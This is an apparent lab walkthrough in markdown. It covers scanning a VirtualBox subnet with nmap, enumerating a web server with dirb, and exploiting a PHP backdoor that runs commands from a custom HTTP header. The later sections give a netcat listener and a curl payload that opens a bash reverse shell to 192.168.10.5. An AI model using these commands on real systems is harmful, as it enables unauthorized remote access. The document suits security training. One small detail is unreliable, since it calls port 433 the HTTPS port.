


# Network Scan Explanation

---

## 1. **IP Address Configuration (`ip a`)**




Your machine has the following network interfaces:

### **Loopback Interface (lo)**

* Used for internal network communication.
* IPv4: `127.0.0.1/8`
* IPv6: `::1/128`

### **eth0 Interface**

* Has a MAC address but **no assigned IP address**.
* Likely inactive or configured for host-only/bridge in VirtualBox.

### **eth1 Interface**

* **Active interface** used for communication.
* IPv4 assigned: `192.168.10.5/24`
* Gateway/network: `192.168.10.0/24`  ( NAT )
* MAC: `08:00:27:82:e5:ae`

---

## 2. **Nmap Scan (`nmap 192.168.10.0/24`)**



You scanned the entire subnet `192.168.10.0/24`, which contains up to 256 IPs. Nmap discovered 4 active hosts.

### ### **Host: 192.168.10.2**

* **Host detected**, but **all 1000 scanned ports are closed**.
* MAC vendor: VirtualBox

### ### **Host: 192.168.10.3**

* **Open ports:**

  * `22/tcp` – SSH
  * `80/tcp` – HTTP (a web service)
  * `8080/tcp` – HTTP Proxy / alternative web service
* MAC vendor: VirtualBox

### ### **Host: 192.168.10.4**

* **Open ports:**

  * `22/tcp` – SSH
  * `80/tcp` – HTTP
* MAC vendor: VirtualBox

### ### **Host: 192.168.10.5 (Your machine)**

* All ports reported as closed.
* Expected, since no services are listening.

---


go to the browser on kali and paste http://192.168.10.4/
this will oppen web page apache 2

```

┌──(mourad㉿kali)-[~]
└─$ dirb http://192.168.10.4/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Nov 27 20:54:25 2025
URL_BASE: http://192.168.10.4/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.10.4/ ----
+ http://192.168.10.4/index.html (CODE:200SIZE:10701)              
+ http://192.168.10.4/info.php (CODE:200|SIZE:114617)
+ http://192.168.10.4/server-status (CODE:403|SIZE:277)

-----------------
END_TIME: Thu Nov 27 20:54:26 2025
DOWNLOADED: 4612 - FOUND: 3


```          


> ⚠️ **Alert**  
> http://192.168.10.4/info.php  
> Loaded modules contain a backdoor!

## 🧩 What Is a Backdoor Module?

A **backdoor module** in PHP refers to any malicious script intentionally inserted into a web application to provide unauthorized, persistent access to an attacker.  
These scripts can bypass authentication, execute arbitrary commands, or allow attackers to regain control even after passwords or configurations are changed.

---

## ❗ Why Backdoors Are Dangerous

A PHP backdoor can allow an attacker to:

- Execute system commands  
- Upload or download files  
- Access or edit the database  
- Read sensitive configuration files  
- Create new administrator accounts  
- Maintain persistence even after cleaning attempts  

---

## ❗ How to use Backdoor

curl -sX GET -H "**Backdoor**:ls" "http://192.168.10.4"

## Components Breakdown

| Flag/Part | Meaning | Description |
|-----------|---------|-------------|
| `-s`      | Silent mode | Hides progress/error messages |
| `-X GET`  | HTTP method | Specifies GET request |
| `-H "Backdoor:ls"` | Custom header | Adds header "Backdoor: ls" |
| `http://192.168.10.4` | Target URL | Server IP address |

## What This Does

- **Sends a GET request** to `192.168.10.4`
- **Includes suspicious header** with "ls" command
- **Runs silently** with no output display
- **Potentially tests** for command injection vulnerabilities


> ⚠️ **Important**  
> instead of using ls we will try to do reverse shell
> ## What is a Reverse Shell?
> - A reverse shell is a type of remote shell connection where:
> - The target machine initiates the connection back to the attacker
> - The attacker listens for incoming connections
> - Once connected, the attacker gets command execution on the target machine
>

## How to use **Reverse Shell**

1. https://www.revshells.com/
2. Past your ip ( in our case 192.168.10.5)
3. Choose a port that is not suspicious
( like 433 for https ) 
Note : this port should not be already used by the web application.
4. Choose shell ==> bash

Now we have 2 commands :

- sudo nc -lvnp 433 :
  - To listen for incoming connections
  - Once connected, the attacker gets command execution on the target machine

- bash -i >& /dev/tcp/192.168.10.5/433 0>&1
  - this command should be executed instead of ls
  - in ```curl -sX GET -H "Backdoor:ls" "http://192.168.10.4" ```
  if we replace **ls** by **bash -i >& /dev/tcp/192.168.10.5/433 0>&1** the bash will not be executed
  - so we need bash -c 'bash -i .....'
  - final result ``` curl -sX GET -H "Backdoor:bash -c 'bash -i >& /dev/tcp/192.168.10.5/433 0>&1'" "http://192.168.10.4"```

## Recap
<div style="display: flex; justify-content: space-between; font-family: monospace;">
  <div style="text-align: left;">
    <strong>Victim Machine (Victim)</strong><br>
    bash -i (interactive shell)<br>
    ↓<br>
    Connects to 192.168.10.5:433<br>
    ↓<br>
    Shell I/O redirected to socket<br>
    ↓<br>
    Victim type → goes to attacker
  </div>
  <div style="text-align: right;">
    <strong>Attacker Machine (192.168.10.5)</strong><br>
    Listening on port 433<br>
    ↑<br>
    nc -lvnp 433<br>
    ↑<br>
    Receives shell access<br>
    ↑<br>
    Attacker types → executes on your machine
  </div>
</div>


